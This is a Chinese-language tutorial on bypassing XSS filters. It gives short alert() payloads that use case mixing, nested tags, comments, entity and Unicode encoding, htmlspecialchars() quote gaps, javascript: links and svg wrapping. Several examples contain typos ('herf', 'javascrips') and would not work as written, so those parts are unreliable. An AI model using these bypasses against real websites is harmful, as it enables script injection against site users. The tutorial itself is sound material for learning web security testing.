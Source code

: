 <a name="oKStr"></a>
## XSS之绕过技巧
大多数网站为了避免XSS的攻击，对于攻击者的输入都采取了过滤的措施，导致攻击者通常不能正常插入恶意代码来达到攻击目的。但是仍存在一些漏洞可以利用，来绕过过滤措施。<br />XSS绕过的方法有许多，主要取决于攻击者的思路和对前端技术的掌握，以下介绍几个简单的绕过方法。
<a name="q70QZ"></a>
### 1）对前端的输入字符数量限制
可以尝试进行抓包重发或者修改前端的HTML中的长度限制。
<a name="oR1b2"></a>
### 2）后台对输入的内容进行正则匹配来过滤输入
对于这样的过滤可以考虑大小写混合输入的方法。
```
payload:<sCRipT>alert('你打篮球像boy')</sCrIPt>
```
<a name="GhI8w"></a>
### 3）后台对输入的内容进行替换
采用拼拼凑的输入方法。
```
payload：<sc<script>ript>alert('你打篮球像boy')</scr<script>ipt>
```
<a name="XbVjY"></a>
### 4）使用注释来干扰后台对输入内容的识别。
```
payload:<sc<!--test-->ript>alert('你打篮球像boy')</scr<!--tshauie-->ipt>
```
<a name="YYiFx"></a>
### 5）编码
思路：后台有可能会对代码中的关键字进行过滤，但可以尝试将关键字进行编码后在插入。（注意：编码在输出时是否会被正常识别和翻译才是关键，不是所有的编码都是可以的）<br />例1：一次编码案例
```html
#使用事件属性onerror()的原始payload: 
<img src=# onerror=alert('yangshuang')"/>

#使用HTML_ENTITY编码后的payload：
<a src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#121;&#97;&#110;&#103;&#115;&#104;&#117;&#97;&#110;&#103;&#39;&#41;"/>
```
例2：多次编码案例解析如下编码
```html
#原始payload

<a herf="javascrips:alert(XSS)">  </a>
#使用unicode的UTF-16编码alert这个字符
<a herf="javascrips:\u0061\u006C\u0065\u0072\u0074(XSS)">  </a>
#再用url编码alert的中间结果
<a herf="javascrips:%5Cu0061%5Cu006C%5Cu0065%5Cu0072%5Cu0074(XSS)">  </a>
#最后用html实体编码，再编码整个payload
太长了，略
```
<a name="vgIJ4"></a>
### 6）`htmlspecialchars()`函数绕过
```
#该函数的语法：
htmlspecialchars(string,flags,character-set,double_encode)
#可用的quotestyle类型：
ENT_COMPAT - 默认。仅编码双引号
ENT_QUOTES - 编码双引号和单引号
ENT_NOQUOTES - 不编码任何引号
#预定义的字符是：
& (和号)   成为 &amp         
" (双引号) 成为 &quot           
’ (单引号) 成为 &#039                     
< (小于)   成为 &lt                    
> (大于)   成为 &gt
```
过滤原理：`htmlspecialchars()` 函数把预定义的字符转换为 HTML 实体，从而使XSS攻击失效。但是这个函数默认配置不会将单引号和双引号过滤，只有设置了`quotestyle`规定如何编码单引号和双引号才能会过滤掉单引号
```
# 默认配置下，可使用以下语句绕过：
q' onclick='alert(111)'
```
<a name="Mc7Vs"></a>
### 7） href 绕过
当输入的值在 a 标签 herf 里
```
payload:javascript:alert(1111)
```
直接代入 a 标签 herf 里面，一样可以绕过 `htmlspecialchars()`函数
<a name="GSfur"></a>
### 8）XSS之js输出绕过
当目标是用JavaScript脚本输出的，只需闭合原有的表情即可插入代码
```
payload:<script> $ms='          11111111'</script><script>alert(1111)</script> ;
```
<a name="RHokH"></a>
### 9）标签绕过
当输入`<script>alert(XSS);</script>`没有反应的时候，可以在前边加上`<svg>`
```html
<svg><script>alert(XSS);</script>
```
当浏览器解析到`<svg>`标签时，浏览器就开始使用一套新的标准开始解析后面的内容，直到碰到闭合标签。而在这一套新的标准遵循XML解析规则，在XML中实体编码会自动转义，重新来一遍标签开启状态，此时就会执行XSS了。
